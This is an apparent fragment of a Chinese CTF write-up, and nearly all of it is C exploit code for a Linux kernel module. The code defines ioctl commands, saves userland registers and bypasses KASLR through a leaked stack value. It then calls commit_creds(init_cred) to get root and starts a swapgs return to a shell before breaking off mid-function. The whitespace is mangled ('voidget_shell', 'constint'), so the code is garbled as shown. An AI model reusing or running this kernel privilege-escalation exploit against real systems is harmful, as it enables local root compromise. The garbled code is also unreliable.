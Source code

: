 ![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldzQ5icyL8ZrLvofruQtPiaL7H8dCxLjCM8tLH2FzTJyyvBKOtop4icvODoFGP4Df6LnAIoVTiar0wPS9Q/640?wx_fmt=other&from=appmsg "null")  
  
image-20240922171025707  
## exp  
```
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <string.h>

struct param {
size_t len;// 内容长度
char*buf;// 用户态缓冲区地址
longlong idx;// 表示 ptr 数组的 索引
};

constint SEQ_NUM =0x200;
constint DATA_SIZE =0x20*8;
#define BOF_MALLOC 5
#define BOF_FREE 7
#define BOF_EDIT 8
#define BOF_READ 9


voidget_shell(){
    system("/bin/sh");
}

size_t user_cs, user_rflags, user_sp, user_ss, user_rip =(size_t) get_shell;

voidsave_status(){
    __asm__("mov user_cs, cs;"
"mov user_ss, ss;"
"mov user_sp, rsp;"
"pushf;"
"pop user_rflags;");
puts("[*] status has been saved.");
}

void*(*commit_creds)(void*)=(void*)0xFFFFFFFF810A1340;

void*init_cred =(void*)0xFFFFFFFF81E496C0;

size_t kernel_offset;

voidget_root(){
// 通过栈上的残留值绕过KASLR。
    __asm__(
"mov rax, [rsp + 8];"
"mov kernel_offset, rax;"
);
    kernel_offset -=0xffffffff81229378;
    commit_creds =(void*)((size_t) commit_creds + kernel_offset);
    init_cred =(void*)((size_t) init_cred + kernel_offset);
    commit_creds(init_cred);
    __asm__(
"swapgs;"
"push user_ss;"
"push user_sp;"
"push user_rflags;"
```